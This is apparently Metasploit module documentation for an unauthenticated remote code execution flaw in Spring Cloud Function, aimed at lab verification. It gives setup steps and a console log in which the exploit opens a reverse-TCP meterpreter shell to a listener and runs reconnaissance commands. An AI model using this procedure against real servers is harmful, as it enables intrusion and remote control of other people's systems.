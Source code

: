 ## Vulnerable Application

Spring Cloud Function versions prior to 3.1.7 and 3.2.3 are vulnerable to remote code execution due to using
an unsafe evaluation context with user-provided queries. By crafting a request to the application and setting
the spring.cloud.function.routing-expression header, an unauthenticated attacker can gain remote code
execution. Both patched and unpatched servers will respond with a 500 server error and a JSON encoded message.

## Verification Steps

1. Build the application
   1. `wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip`
   2. `unzip v3.1.6.zip`
   3. `cd spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo`
   4. `mvn package`
2. Run the application
   1. `java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_cloud_function_spel_injection`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options

## Scenarios

### Spring Cloud Function v3.1.6 on Fedora 34

```
msf exploit(multi/http/spring_could_function_spel_injection) > show options

Module options (exploit/multi/http/spring_could_function_spel_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.128  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /functionRouter  yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(multi/http/spring_could_function_spel_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (39920 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:56924 ) at 2022-03-30 17:59:07 -0400

meterpreter > getuid
Server username: smcintyre
meterpreter > pwd
/home/smcintyre/spring-rce/spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo
meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 5.16.14-100.fc34.x86_64 #1 SMP PREEMPT Fri Mar 11 20:24:01 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
